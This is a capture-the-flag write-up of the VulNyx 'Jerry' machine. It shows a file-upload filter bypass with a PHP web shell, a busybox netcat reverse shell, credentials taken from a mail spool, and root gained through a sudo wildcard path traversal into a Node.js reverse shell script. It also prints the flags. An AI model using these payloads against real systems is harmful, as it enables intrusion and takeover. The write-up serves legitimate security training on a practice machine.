









# CTF Penetration Testing

## Platform: VulNyx

### Machine: [Jerry](https://vulnyx.com/#jerry)

- Machine type:  Linux
- Machine difficulty: 🟥 Hard

#### Skills Learned

- **Arbitrary File Upload** - Bypass Client-Side Validation, Blacklist Filters, MIME-Type
- **Linux Privilege Escalation** - `sudo` Rights Abuse

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig eth0
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.247.128  netmask 255.255.255.0  broadcast 192.168.247.255

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ fping 192.168.247.227

192.168.247.227 is alive

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 192.168.247.227 -T5 

[SNIP]

PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http

┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSV -p22,25,80 192.168.247.227 -T5 

[SNIP]

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
25/tcp open  smtp    Postfix smtpd
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://192.168.247.227

http://192.168.247.227 [200 OK] Apache[2.4.57], Bootstrap, Country[RESERVED][ZZ], Email[contact@company.com], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[192.168.247.227], JQuery, Script, Title[jerry.nyx], X-UA-Compatible[IE=Edge]

┌──(nabla㉿kali)-[~]
└─$ echo -e '192.168.247.227\tjerry.nyx' | sudo tee -a /etc/hosts

192.168.247.227 jerry.nyx
```




**Arbitrary File Upload**



```javascript
function UploadCheck(File) {
  var file = File.files[0];
  var filename = file.name;
  var extension = filename.split('.').pop();
  if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
    $('#upload_message').text('Only images are allowed');
    File.form.reset();
  } else {
    $('#inputGroupFile01').text(filename);
  }
}
$(document).ready(
  function () {
    $('#upload').click(
      function (event) {
        event.preventDefault();
        var fd = new FormData();
        var files = $('#uploadFile') [0].files[0];
        fd.append('uploadFile', files);
        if (!files) {
          $('#upload_message').text('Please select a file');
        } else {
          $.ajax({
            url: '/request/upload.php',
            type: 'post',
            data: fd,
            contentType: false,
            processData: false,
            success: function (response) {
              if (response.trim() != '') {
                $('#upload_message').html(response);
              } else {
                window.location.reload();
              }
            },
          });
        }
      }
    );
  }
);
```

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://future.nyx/FUZZ -t 100 -ic 

[SNIP]

images                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 0ms] ❌
```










```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'PD9waHAKcmVxdWlyZV9vbmNlKCcuL2ltYWdlcy1mdW5jdGlvbnMucGhwJyk7CgovLyB1cGxvYWRlZCBmaWxlcyBkaXJlY3RvcnkKJHRhcmdldF9kaXIgPSAiLi9qb2JfcmVxdWVzdF9maWxlcy8iOwoKLy8gcmVuYW1lIGJlZm9yZSBzdG9yaW5nCiRmaWxlTmFtZSA9IGRhdGUoJ3ktbS1kJykgLiAnXycgLiBiYXNlbmFtZSg...' | base64 -d > upload.php
```

```php
<?php
require_once('./images-functions.php');

// uploaded files directory
$target_dir = "./job_request_files/";
// rename before storing
$fileName = date('y-m-d') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;
//  blacklist test
if (preg_match('/.+\.ph(p|ps|tml|tm|t)/', $fileName)) {
    echo "Extension not allowed";
    die();
}else{
        echo "File uploaded succesfully";
}
// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}
if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
        displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -n 'PD9waHAKCmZ1bmN0aW9uIGRpc3BsYXlIVE1MSW1hZ2UoJGltYWdlRmlsZSkKewogICAgJHR5cGUgPSBtaW1lX2NvbnRlbnRfdHlwZSgkaW1hZ2VGaWxlKTsKCiAgICBzd2l0Y2ggKCR0eXBlKSB7CiAgICAgICAgY2FzZSAnaW1hZ2UvanBnJzoKICAgICAgICAgICAgZWNobyAiPGltZyBzdHlsZT1cIm9iamVjdC1maXQ6IGN...' | base64 -d > images-functions.php
```

```php
<?php

function displayHTMLImage($imageFile)
{
    $type = mime_content_type($imageFile);
    switch ($type) {
        case 'image/jpg':
            echo "";
            break;
        case 'image/jpeg':
            echo "";
            break;
        case 'image/png':
            echo "";
            break;
        case 'image/gif':
            echo "";
            break;
        case 'image/svg+xml':
            libxml_disable_entity_loader(false);
            $doc = new DOMDocument();
            $doc->loadXML(file_get_contents($imageFile), LIBXML_NOENT | LIBXML_DTDLOAD);
            $svg = $doc->getElementsByTagName('svg');
            echo $svg->item(0)->C14N();
            break;
    }
}
```

```
┌──(nabla㉿kali)-[~]
└─$ locate web-extensions.txt                                                          
/usr/share/seclists/Discovery/Web-Content/web-extensions.txt
```





```php
<?php system($_REQUEST["cmd"]) ?>
```



```
┌──(nabla㉿kali)-[~]
└─$ curl 'http://jerry.nyx/request/job_request_files/25-06-04_payload.phar?cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337                                                                                                                                  
listening on [any] 1337 ...

[CONTINUE]
```

```
┌──(nabla㉿kali)-[~]
└─$ curl 'http://jerry.nyx/request/job_request_files/25-06-04_test.phar?cmd=busybox+nc+192.168.247.128+1337+-e+sh'
```

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.227] 56620

whoami
www-data
```

```
ls /home
elaine
jerry
kramer

ls /var/mail
elaine
jerry

./linpeas.sh > linpeas.output
```

```
┌──(nabla㉿kali)-[~]
└─$ cat linpeas.output

[SNIP]

╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  4 root root 4096 Mar  8  2024 .
drwxr-xr-x 18 root root 4096 Mar  8  2024 ..
drwxr-xr-x  2 root root 4096 Mar  8  2024 backups_mail
drwxr-xr-x  2 root root 4096 Mar  8  2024 scripts

[SNIP]

╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 1329 Mar  8  2024 /opt/backups_mail/backup_mail_1709916924131.zip
-rw-r--r-- 1 root root 1329 Mar  8  2024 /opt/backups_mail/backup_mail_1709916925385.zip
-rw-r--r-- 1 root root 875 Mar  8  2024 /opt/scripts/backup.js

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ cat var/mail/elaine 

From elaine@jerry  Fri Mar  8 10:03:40 2024
Return-Path: <elaine@jerry>
X-Original-To: elaine@vulnyx.com
Delivered-To: elaine@vulnyx.com
Received: by vulnyx.com (Postfix, from userid 1004)
        id 47219A0346; Fri,  8 Mar 2024 10:03:40 -0600 (CST)
Subject: Kramer & Newman Clash at New Years
To: <elaine@vulnyx.com>
User-Agent: mail (GNU Mailutils 3.15)
Date: Fri,  8 Mar 2024 10:03:40 -0600
Message-Id: <20240308160340.47219A0346@vulnyx.com>
From: elaine@jerry

Which millennium are you going to go to, Kramer's or Newman's?

From jerry@jerry  Fri Mar  8 10:03:40 2024
Return-Path: <elaine@jerry>
X-Original-To: jerry@vulnyx.com
Delivered-To: jerry@vulnyx.com
Received: by vulnyx.com (Postfix, from userid 1004)
        id 47219A0346; Fri,  8 Mar 2024 10:03:40 -0600 (CST)
Subject: Vacation weeks at Spain
To: <elaine@vulnyx.com>
User-Agent: mail (GNU Mailutils 3.15)
Date: Fri,  8 Mar 2024 10:03:40 -0600
Message-Id: <20240308160340.47219A0346@vulnyx.com>
From: jerry@jerry


Hi Elaine, 

If I remember correctly you were going on vacation in Spain for a few weeks, right? 
I just wanted to confirm that the password for the gym was 'imelainenotsusie',
I don't want to be there and not be able to pick up the glasses from the gym locker.

Best regards!
```

```javascript
elaine:imelainenotsusie
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh elaine@jerry.nyx

elaine@jerry.nyx's password: 
Linux jerry 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

elaine@jerry:~$ 
```

```
elaine@jerry:~$ cat /home/elaine/user.txt

676ced18c8f480a80ddb4351d66d5f28 🚩
```

**Linux Privilege Escalation**

```
elaine@jerry:~$ sudo -l

[SNIP]

User elaine may run the following commands on jerry:
    (ALL) NOPASSWD: /usr/bin/node /opt/scripts/*.js

elaine@jerry:~$ ls -l /opt/scripts/

total 4
-rw-r--r-- 1 root root 875 Mar  8  2024 backup.js
```

```javascript
const fs = require('fs');
const { exec } = require('child_process');

// Folder path to backup
const folderToBackup = '/var/mail/';

// Path where backups will be stored
const backupFolder = '/opt/backups_mail';

// Backup file name
const backupFileName = 'backup_mail_' + Date.now() + '.zip';

// Command to create the zip file
const zipCommand = `zip -r ${backupFileName} ${folderToBackup}`;

// Check if the backup folder exists, if not, create it
if (!fs.existsSync(backupFolder)) {
    fs.mkdirSync(backupFolder);
}

// Execute the command to create the zip file
exec(zipCommand, (error, stdout, stderr) => {
    if (error) {
        console.error(`Error performing backup: ${error}`);
        return;
    }
    if (stderr) {
        console.error(`Error executing command: ${stderr}`);
        return;
    }
    console.log(`Backup successful: ${backupFileName}`);
});
```

```
elaine@jerry:$ ls -ld /opt/scripts/

drwxr-xr-x 2 root root 4096 Mar  8  2024 /opt/scripts/ ❌
```


```
elaine@jerry:/opt/scripts$ vim /tmp/revsh.js

(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(1337, "192.168.247.128", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337                                                                                                                                  
listening on [any] 1337 ...

[CONTINUE]
```

```
elaine@jerry:$ sudo /usr/bin/node /opt/scripts/*.js/../../../../tmp/revsh.js
```

```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.227] 43284

whoami
root
```

```
cat /root/root.txt

\ \      / /_ _| |_ ___| |__   / ___|  ___(_)_ __  / _| ___| | __| | 
 \ \ /\ / / _` | __/ __| '_ \  \___ \ / _ \ | '_ \| |_ / _ \ |/ _` | 
  \ V  V / (_| | || (__| | | |  ___) |  __/ | | | |  _|  __/ | (_| | 
   \_/\_/ \__,_|\__\___|_| |_| |____/ \___|_|_| |_|_|  \___|_|\__,_| 

                        I hope you liked my machine! 
                             By J4ckie0x17

4948a57231e2aed713664e3ed2659f99 🚩
```


---
---
